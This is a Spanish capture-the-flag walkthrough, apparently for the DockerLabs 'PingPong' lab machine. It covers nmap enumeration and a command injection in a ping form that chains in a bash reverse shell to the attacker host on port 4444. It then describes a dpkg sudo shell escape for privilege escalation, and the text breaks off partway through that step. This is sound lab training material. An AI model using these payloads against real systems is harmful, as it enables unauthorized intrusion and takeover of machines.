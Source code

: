 # PingPong
![pingpong](https://github.com/TBrux/DOCKERLABS/assets/168732212/839c278d-0cfe-47ea-af7c-cfe28d7b0f1e)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
443/tcp  open  https   syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64
```

Como tenemos abiertos los puertos 80, 443 y 5000 vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80,443,5000 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80,443,5000`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
5000/tcp open  upnp?    syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
```
Enumeros los tres puerto y vemos que en el puerto 5000, tenemos una página con la que podemos lanzar un ping a una ip.
![ping](https://github.com/TBrux/DOCKERLABS/assets/168732212/e8b49c6e-05d4-4ca7-86dc-56163e91f21a)

## Explotación.

Podemos utilizar que podemos lanzar un ping y concatenar otro comando para lanzarnos una reverse shell, poniendonos a la escucah en nuestra máquina atacante.
```bash
172.17.0.1 | bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 56412
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
freddy@5b164d9e97a0:~$ whoami
whoami
freddy
freddy@5b164d9e97a0:~$
```
## Escalada de privilegios.
Hemos obtenido acceso como **freddy**, ahora toca ir escalando privilegios hasta obtener privilegio como el usuario **root**.
```bash
freddy@5b164d9e97a0:~$ sudo -l
sudo -l
Matching Defaults entries for freddy on 5b164d9e97a0:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User freddy may run the following commands on 5b164d9e97a0:
    (bobby) NOPASSWD: /usr/bin/dpkg
```
Vemos que podemos utilizar el binario dpkg como el usaruio bobby, que si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/), podemo sver que lo podemos lanzar utlizando el siguient comando.
```bash
sudo dpkg -l
!/bin/sh
```
```bash
sudo -u bobby /usr/bin/dpkg -l
```




